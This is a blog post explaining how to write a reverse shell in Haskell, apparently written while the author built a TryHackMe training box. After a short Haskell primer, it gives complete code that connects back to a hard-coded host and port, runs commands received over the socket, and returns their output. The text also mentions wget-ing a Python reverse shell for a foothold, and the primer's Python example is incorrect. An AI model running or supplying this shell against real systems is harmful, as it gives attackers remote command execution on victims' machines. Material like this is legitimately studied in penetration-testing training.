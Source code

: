 layout: page
title: "Writing A Reverse Shell In Haskell"
permalink: /Writing-A-Reverse-Shell-In-Haskell
categories: haskell

While I was developing a vulnerable box for the TryHackMe teaching platform, I wrote a small Flask app that accepts a Haskell file upload and compiles/runs it. This was intended to be abused by attackers in order to get an initial foothold through running a Haskell program and then escalate to root. Like any good box maker I had to test it and make sure it was solvable. My initial solution to the foothold was a short Haskell program that uses the System.Process library in order to call system functions. Since redirection was really janky I couldn’t do a lot of things, so my workaround was to wget a Python reverse shell and then run it. This worked, but I thought “Surely someone has written a reverse shell in this language”. Much to my surprise, Google turned up empty. Original thought isn’t dead!

I attribute this to a few things: Haskell is a somewhat niche language, it’s not very easy to pick up, and it’s pretty limited in its applications for offensive security. Ironically, Haskell is an incredibly safe language because of all the type checking, lack of side effects, and how easy it makes proving functions! Anyways, I figured that since no one had done it before, I ought to write a reverse shell. I’m currently completing my OSCP and have been using PayloadAllTheThings like a zealot, so this seems like my chance to give back in a very niche fashion if for some reason someone needs a Haskell reverse shell.

# A Brief Introduction To Haskell (Skip this if you just wanna see the shellz)
Here’s a few cool things about Haskell:

* Haskell is statically typed, so if we assign a variable to an integer the compiler knows it’s going to stay an integer
* Functions have no side effects. The only thing that a function can do is compute something and return its value.
* Haskell is lazy. This means it won’t compute values until we actually ask for them. This comes in handy if we, say, want to work with an infinitely long list. We can declare an infinitely long list, and if we try to access list indexes very far into the list, Haskell won’t compute that until we ask for it.
* Haskell is super concise. It’s very easy to write very short, incredibly powerful one liners

Here’s a brief comparison between Haskell and Python, as many people have experience with Python. The problem will be to reverse a list and return a list containing the new first and last index. For example, if the input is [1,2,3,4], the output is [4,1]. We’ll assume “x” is our variable equal to the input.

Python: 

'''python
x.reverse[0].append(x.reverse[-1])
'''
If you’re familiar with List objects in Python, you know that what we’re doing behind the scenes is accessing the reverse, getitem (to access the index), and append methods of the List class in order to perform this operation.

Haskell:

'''haskell
(head (reverse x)):(tail (reverse x)):[]
'''
In Haskell, we’re calling the head function to get the first item, the reverse function to give us a reversed list, the tail function to get the last item, and then appending it using the “:” list constructor onto an empty list. We did all of this just with functions, how cool is that!

Additionally, we could tell Haskell what we want to input/output from our function. So in this case, we’re inputting a list of integers and returning a list of integers. So we could tell Haskell:
'''haskell
funcName :: [Int] -> [Int]
'''
If we try to pass in a string or a list of strings, then Haskell will throw an error at compilation. This can also be abstracted, so if we wanted to take a list of something and return a single something we could declare:
'''haskell
funcName :: [a] -> a
'''
Where “a” is our generic data type. Contrast this to Python, where we can take the example above and nothing prevents us from passing in a number. But when the function tries to run, it’ll try to call the reverse method of the Integer class, which will fail because there isn’t one. With Haskell, we know what we’re getting.

This is just a short description of Haskell, it’s an incredibly powerful language and I suggest that you dig deeper into it.

# Writing Our Reverse Shell
Anyways, now that you’ve had a brief introduction to how Haskell works, let’s get into the reverse shell. We’ll dissect it a few lines at a time.

'''haskell
import Network.Socket hiding (send, sendTo, recv, recvFrom)
import Network.Socket.ByteString (send, recv)
import qualified Data.ByteString.Char8 as B8
import System.Process
import System.IO
import Control.Exception

main = do
        client "192.168.126.128" 1234
'''

Pretty self explanatory. This is just our imports and our main function call, similar to Java/C/etc.

'''haskell
client :: String -> Int -> IO ()
client host port = withSocketsDo $ do
                addrInfo <- getAddrInfo Nothing (Just host) (Just $ show port)
                let serverAddr = head addrInfo
'''

This is the start function that we call in main. I’ve pulled a short snippet because I want to address a few Haskell syntax things.

First, at a high level, what we’re doing here is constructing the addrInfo data type that we need to grab information from to pass to a later function.

Why do some lines have a <- and some have a “let x = y”? The <- operator is used for IO actions in this case. Essentially, it will actually perform the IO operation and then bind it to the variable, performing a monadic binding and let us work with that variable differently. The “let =” operator binds whatever the value is to a variable literally.

The $ operator is used for function application. For (Just $ show port), “Just” is a data type that lets us say “The result of this function MAY BE this, but it also MAY BE Nothing”. The “show” function takes a value and outputs that value as a string. If we had “(Just show port)”, then that could be interpreted as us trying to declare “show” as a variable of the “Maybe” type (of which Just is a subtype). But that’s not what we want, we want to apply Just to the result of “show port”.

'''haskell
sock <- socket (addrFamily serverAddr) Stream defaultProtocol
connect sock (addrAddress serverAddr)
(_, Just hout, _, _) <- createProcess (proc "whoami" []) {std_out = CreatePipe}
resultOut <- hGetContents hout
let resultMsg = B8.pack resultOut
send sock resultMsg
msgSender sock
close sock
'''

Now the rest of this function. We’ll pass in the first item of our addrInfo data type, serverAddr, cast as an addrFamily data type. Haskell will detect the protocol used for us, in this case TCP. This creates the socket that we’re going to pass around for the rest of this program. Then, we’ll call the connect function and pass in the socket and server address.

Next is the meat and potatoes of the command execution, we call createProcess and pass in “whoami” as our process, creating a pipe for standard out. I used whoami as it works on both Linux and Windows. If you’re curious about the underscores in (_, Just hout, _, _) those essentially mean that we don’t care what they are because we’re not going to use them, so we don’t need to assign them to a variable. If we wanted to use them all they would be stdin, stdout, stderr, and a handle to the process (in that order). Then we can get the results of our command using the IO operation hGetContents and use ByteString to pack them into a network friendly form. Then we’ll send the result of that command, so the user on the receiving end knows who they are, and call the function that’s going to do the heavy lifting.

'''haskell
msgSender :: Socket -> IO ()
msgSender sock = do
  let msg = B8.pack ""
  send sock msg
  rMsg <- recv sock 2048
  let split_cmd = words (filter (/= '\n') (B8.unpack rMsg))
  print split_cmd
  result <- try' $ createProcess (proc (head split_cmd) (tail split_cmd)) {std_out = CreatePipe, std_err = CreatePipe}
  case result of 
    Left ex                            -> sendError sock ex
    Right (_, Just hout, Just herr, _) -> sendResult sock (Nothing, Just hout, Just herr, Nothing)
  msgSender sock
'''

If you’ve made it this far, I promise that we’re almost done with all the convoluted Haskell stuff! This function is going to infinitely loop in order to call commands, return their output, and then wait again. The program receives a message from the user, removes all new lines via filter, and uses the words function to create a list split on every space. We have to do this as createProcess takes a list of arguments to the command. Then, we’ll run our program the same as before, but this time we’ll also create an std_err pipe as we want to know when things go wrong. You’ll also notice the “try’” function call with the $ function applicator. 

'''haskell
try' :: IO a -> IO (Either IOException a)
try' = try
'''

Adding an apostrophe to a function name is the standard way to denote a modified version of an existing function in Haskell. This takes the existing try function, but specifies it so that it takes a generic IO type in and returns an “Either” data type, which allows us to handle exceptions. This is necessary because while a command returning an error isn’t a problem, if we try to run a non-existent command then the shell would just crash.

We can then use a case statement for error handling.In other languages this would be a switch statement or a series of if statements. Our try function will return “Left” if the command had an exception, and “Right” if it succeeded. So if it fails, we’ll send the error message back to the user. If it didn’t fail, we’ll send back the output and any error messages that were a product of the command. Then we call the function again and loop back. 

'''haskell
sendError sock err = do
  let errorMsg = B8.pack ("Error:" ++ show err ++ "\n")
  send sock errorMsg
  
sendResult sock (_, Just hout, Just herr, _) = do
    resultOut <- hGetContents hout
    errorOut <- hGetContents herr
    let resultMsg = B8.pack resultOut
    let errorMsg = B8.pack errorOut
    send sock resultMsg
    send sock errorMsg
'''

The last component are the functions that will send a system error back to the user if the command causes an exception, and the function that sends back the results of the command. These are pretty self explanatory.

And that’s how you implement a reverse shell in Haskell! Hopefully you learned something new from this post. If you’ve never used a functional programming language before, I highly recommend that you do a bit of reading on them. Personally I wasn’t super fluent with Python’s Lambda functions or list comprehensions, but after learning some Haskell I have no problem writing them on the fly. There’s no feeling of power quite like writing a 500 character one liner to process a data set that would’ve taken 20 characters in Excel.
